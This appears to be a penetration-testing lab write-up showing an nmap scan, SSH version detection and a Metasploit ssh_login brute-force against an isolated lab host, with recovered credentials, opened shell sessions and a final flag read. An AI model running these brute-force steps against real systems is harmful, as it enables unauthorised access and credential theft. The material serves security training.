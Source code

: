 In this lab, run the following auxiliary modules against the target:

- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- Use **/usr/share/metasploit-framework/data/wordlists/common_users.txt** username dictionary
- Use **/usr/share/metasploit-framework/data/wordlists/common_passwords.txt** password dictionary

RHOST = 192.248.77.3
LHOST = 192.248.77.2

```
nmap -sS -sV -p-  192.248.77.3

22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
```

```
use auxiliary(scanner/ssh/ssh_version) 
setg rhosts 192.248.77.3
exploit

[+] 192.248.77.3:22       - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
```

```
use auxiliary(scanner/ssh/ssh_login) 
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
exploit

[+] 192.248.77.3:22 - Success: 'sysadmin:hailey' ''
[*] Command shell session 1 opened (192.248.77.2:38199 -> 192.248.77.3:22) at 2024-07-19 12:32:11 +0000
[+] 192.248.77.3:22 - Success: 'rooty:pineapple' ''
[*] Command shell session 2 opened (192.248.77.2:44001 -> 192.248.77.3:22) at 2024-07-19 12:33:33 +0000
[+] 192.248.77.3:22 - Success: 'demo:butterfly1' ''
[*] Command shell session 3 opened (192.248.77.2:39985 -> 192.248.77.3:22) at 2024-07-19 12:35:00 +0000
[+] 192.248.77.3:22 - Success: 'auditor:xbox360' ''
[*] Command shell session 4 opened (192.248.77.2:41505 -> 192.248.77.3:22) at 2024-07-19 12:36:48 +0000
[+] 192.248.77.3:22 - Success: 'anon:741852963' ''
[*] Command shell session 5 opened (192.248.77.2:41767 -> 192.248.77.3:22) at 2024-07-19 12:39:09 +0000
[+] 192.248.77.3:22 - Success: 'administrator:password1' ''
[*] Command shell session 6 opened (192.248.77.2:45639 -> 192.248.77.3:22) at 2024-07-19 12:41:22 +0000
[+] 192.248.77.3:22 - Success: 'diag:secret' ''
```

```
ssh sysadmin@192.248.77.3
password: hailey

cd / 
cat flag
```
